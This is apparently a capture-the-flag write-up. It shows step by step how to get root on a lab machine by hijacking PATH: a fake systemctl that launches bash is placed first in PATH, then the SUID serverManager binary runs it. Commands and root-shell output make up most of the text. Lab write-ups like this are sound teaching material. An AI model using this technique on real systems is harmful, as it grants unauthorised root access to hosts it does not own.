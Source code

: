 <h3>What are we exploiting?</h3>
<p>We're exploiting a combination of two things here.<br>

Firstly, the binary runs as root due to SUID.<br>

Secondly, the binary calls systemctl with an incomplete path (eg not /usr/bin/systemctl, just systemctl on it's own.)<br>

Because the system will run the first binary it finds from PATH that matches systemctl here, we can make our own fake systemctl to run instead, which will be ran as root (as it inherits the UID and GID of the parent process).<br>

Our fake systemctl can be as simple as /bin/bash in plaintext to start a new shell - Linux treats executable text files as shell scripts.<br>

Let's create a fake systemctl, add it to path, and get root.</p>

<h6>Reverse Shell</h6>

```bash
[dogpics@dejavu ~]$ which systemctl
/usr/bin/systemctl
[dogpics@dejavu ~]$ echo '/bin/bash' > systemctl
[dogpics@dejavu ~]$ chmod +x systemctl
[dogpics@dejavu ~]$ export PATH=.:$PATH
[dogpics@dejavu ~]$ which systemctl
./systemctl
[dogpics@dejavu ~]$ ./serverManager 
Welcome to the DogPics server manager Version 1.0
Please enter a choice:
0 -	Get server status
1 -	Restart server
0
[root@dejavu ~]# whoami
root
```

<p>Let's break this down:<br>

[dogpics@dejavu ~]$ echo '/bin/bash' > systemctl - We're creating a plaintext file with the contents /bin/bash which will start a shell when executed.<br>

[dogpics@dejavu ~]$ chmod +x systemctl - We need to make our fake systemctl executable, otherwise it will be ignored.<br>

[dogpics@dejavu ~]$ export PATH=.:$PATH - here, we add . (our current working directory) to the beginning of PATH. This means the system will look in our current working directory for binaries before searching the rest of PATH, and find our fake systemctl before the genuine one.<br>

[dogpics@dejavu ~]$ which systemctl - To check that our fake systemctl will run if the command systemctl is used, we use which. which essentially does the PATH lookup for us and prints the results.<br>

[dogpics@dejavu ~]$ ./serverManager - Run the vulnerable binary!<br>

From there, you should have a root shell. As a warning, your HOME variable is still /home/dogpics rather than /root so you will need to cd /root. Then just grab the flag.</p>
